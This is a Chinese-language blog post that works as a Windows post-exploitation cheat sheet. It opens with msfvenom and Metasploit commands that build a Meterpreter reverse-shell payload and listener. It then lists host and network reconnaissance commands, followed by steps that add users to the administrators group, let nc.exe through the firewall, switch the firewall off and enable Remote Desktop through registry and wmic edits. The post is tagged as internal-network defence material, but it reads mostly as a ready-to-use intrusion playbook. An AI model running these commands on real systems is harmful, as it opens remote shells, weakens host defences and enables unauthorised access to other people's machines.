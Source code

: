 ```yaml
---
layout: post
title: Windows 主机信息搜集
subtitle: Windows 主机信息搜集
date: 2025-07-24 16:37
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 内网防护
published: true
---
```

## 1. 前置条件

**反弹 shell**

Kali:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost eth0
exploit
```

## 2. 系统信息搜集

```batch
# 解决乱码
chcp 437 # change english
chcp 65001 # UTF-8 编码
chap 936 # GB2312 编码

# 查询操作系统版本
# /B 匹配行的开头
# /C 区分大小写
systeminfo | findstr /B /C:"OS"
# 主机名
hostname
whoami
echo %username%
query user
# 处理器架构
echo %PROCESSOR_ARCHITECTURE%
# 获取开机时间
net statistics workstation 

net user <user> # 查看指定用户权限
net user <user> /active:yes

net localgroup
net localgroup administrators <user> /add
# 进程
tasklist
wmic service|process [where state='Running'] list brief|full
wmic product get name,version

schtasks /query /fo LIST /V # 查看计划任务
```

**cmd 执行 powershell 命令**

```batch
powershell.exe -command "get-process"
```

## 3. 网络信息搜集

```batch
ipconfig /all
# 当前网络连接
# a: 显示所有连接和监听的端口
# n: 以数字格式显示地址和端口
# o: 显示与每个连接关联的进程 PID
netstat -ano
# 本机共享列表
net share
# 以简洁的方式列出共享的信息
wmic share list brief
#自定义显示字段
wmic share get Description,name,path,status
net use
net session
# arp缓存表
arp -a
# 路由表
route print
netstat -r
```

## 4. 安全信息搜集

```batch
# 查看启动程序信息
wmic startup get command,caption
# 查看计划任务
schtasks /query /fo LIST /V
# 查看补丁列表
systeminfo
```

### 4.1. 防火墙

#### 4.1.1. 查看防火墙配置

```batch
netsh firewall show config
netsh advfirewall firewall show rule name=all dir=in | find <rulename>
netsh advfirewall firewall show rule name=<rulename>
```

#### 4.1.2. 修改防火墙配置

Windows server 2003 及之前版本

```batch
# 允许指定程序通过
netsh firewall all allowprogram c:\nc.exe "allow nc" enable
# 查看防火墙状态
netsh firewall show state
# 关闭防火墙
netsh firewall set opmod disable
```

Windows server 2003 之后版本

```batch
# 允许指定程序
# dir: in|out
netsh advfirewall firewall add rule name="allow nc" dir=in action=allow program="c:\nc.exe"
# 允许指定端口
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
# 关闭防火墙
netsh advfirewall firewall set allprofiles state off
```

### 4.2. 远程桌面

```batch
# 开启远程桌面服务
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
# 开启3389端口
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
# or
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

**windows server 2003开启 3389 端口**

```batch
wmic path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1
```

**在 Windows server 2008 和 Windows server 2012 中开启 3389 端口**

```batch
wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1
# 
wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName ='RDP-Tcp') call setuserauthenticationrequired 1
# 
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
```

#### 4.2.1. 远程桌面端口设置

查询 Windows 注册表中与远程桌面服务（RDP）相关的端口设置，特别是 RDP 使用的端口号。

```batch
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber
```

![image.png](https://img.ghostliner.top/qAP2U2.png)

修改远程桌面端口

```batch
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber /T REG_DWORD /D 3389 /F 
```

### 4.3. 自动脚本

WMIC（Windows management instrumentation command-line，windows 管理工具命令行）是最有用的 Windows 命令行工具。在默认情况下，任何版本的 Windows XP 的低权限用户不能访问 WMIC， Windows 7 以上版本的低权限用户允许访问 WMIC 并执行相关查询操作

WMIC 脚本的下载地址：[Coding: wmic_info.bat](https://fuzzysecurity.com/scripts/13.html)

执行该脚本后，会将所有结果写入一个 HTML 文件

#### 4.3.1. Wmic 命令

```batch
wmic service [where state='Running'] list brief|full
wmic product get name,version
wmic startup get command,caption # 查看系统启动信息
wmic qfe list brief # 列出所有安装的补丁
```

#### 4.3.2. Netsh 命令

```batch
netsh firewall show config # 查看防火墙配置
netsh advfirewall firewall show rule name=all dir=in | find <rulename>
netsh advfirewall firewall show rule name=<rulename>
```
